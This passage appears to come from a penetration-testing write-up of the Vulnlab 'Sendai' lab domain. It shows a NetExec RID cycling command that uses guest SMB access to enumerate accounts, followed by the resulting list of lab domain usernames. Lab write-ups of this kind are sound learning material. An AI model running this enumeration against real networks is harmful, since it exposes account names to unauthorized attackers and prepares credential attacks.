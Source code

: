 
It just contains some instructions to the domain nothing useful to us.

### RID Cycling

Since we have guest access to the domain, using NetExec we can perform the RID Cycling attack on the domain to get the list of all the domain accounts.

```bash
nxc smb sendai.vl -u '.' -p '' --rid-brute
```

![image.png](/assets/images/Sendai_VL/image%2011.png)

I will also save all these accounts to our usernames.txt file created before.

So total accounts in the domain are.

```text
Administrator
Guest
krbtgt
SQLServer2005SQLBrowserUser$DC
sqlsvc
websvc
staff
Dorothy.Jones
Kerry.Robinson
Naomi.Gardner
Anthony.Smith
Susan.Harper
Stephen.Simpson
Marie.Gallagher
Kathleen.Kelly
Norman.Baxter
Jason.Brady
Elliot.Yates
Malcolm.Smith
Lisa.Williams
Ross.Sullivan
Clifford.Davey
Declan.Jenkins
Lawrence.Grant
Leslie.Johnson
Megan.Edwards
Thomas.Powell
```